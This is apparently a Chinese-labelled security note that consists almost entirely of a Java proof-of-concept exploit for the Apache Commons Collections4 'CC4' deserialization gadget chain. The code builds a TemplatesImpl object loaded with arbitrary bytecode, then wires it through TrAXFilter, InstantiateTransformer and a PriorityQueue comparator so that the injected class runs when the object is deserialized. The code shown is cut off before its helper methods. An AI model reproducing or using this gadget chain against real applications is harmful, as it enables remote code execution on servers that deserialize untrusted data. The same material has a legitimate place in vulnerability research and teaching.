 完整POC

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
        Field bytecodesField = cc3.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://Test//Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc3.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = {new ConstantTransformer(TrAXFilter.class), instantiateTransformer};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //instantiateTransformer.transform(TrAXFilter.class);
        //chainedTransformer.transform(1);
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator, chainedTransformer);



        //        serialize(priorityQueue);
        unserialize("ser.bin");


    }


```
